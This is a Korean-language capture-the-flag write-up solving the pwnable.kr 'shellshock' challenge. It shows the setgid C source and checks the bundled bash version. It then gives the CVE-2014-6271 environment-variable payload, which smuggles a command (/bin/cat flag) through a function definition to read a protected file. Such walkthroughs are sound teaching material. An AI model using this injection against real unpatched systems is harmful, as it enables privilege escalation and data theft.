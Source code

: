 # shellshock

# 문제

> Mommy, there was a shocking news about bash.
>
> I bet you already know, but lets just make it sure :\)
>
> ssh shellshock@pwnable.kr -p2222 \(pw:guest\)

# 소스

```
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```

# 취약점

[Shellshock](https://goyunho.gitbooks.io/solutions/content/system/shellshock.html)\(bash shell\) 취약점

# 공략

#### 1. bash의 Shellshock 취약점 유무 확인

```
shellshock@ubuntu:~$ ls -l
-r-xr-xr-x 1 root shellshock     959120 Oct 12  2014 bash
-r--r----- 1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x 1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r-- 1 root root              188 Oct 12  2014 shellshock.c
```

파일 목록을 보면 bash 파일이 있는데 이 bash shell로 이동해서 버전을 확인해보았다

```
shellshock@ubuntu:~$ ./bash
shellshock@ubuntu:~$ echo $BASH_VERSION
4.2.25(1)-release
```

Shellshock 취약점은 bash 버전 4.3에서 패치되었으므로 현재 폴더에 있는 bash는 Shellshock 취약점이 있음을 알 수 있다.

#### 2. 풀이

소스를 보면 uid와 gid를 유효 그룹 ID값으로 다시 설정하고 system 함수 안에 있는 명령어를 실행하고 종료하는 프로그램이다.

이를 이용하려면 Shellshock의 취약점 중 하나인 CVE-2014-6271을 사용하여 환경변수 설정과 원하는 명령을 입력해야 한다.

export x="\(\) { :; }; \[임의의 명령\];"

이 문제에서는 flag의 내용을 봐야 하므로 임의의 명령에 /bin/cat flag를 넣어서 쉘에 입력한다.

그 다음 ./shellshock로 컴파일된 프로그램을 실행하면 flag가 나오게 된다.

flag를 pwnable.kr에 입력하면 풀이 성공

![](/assets/shellshock.PNG)

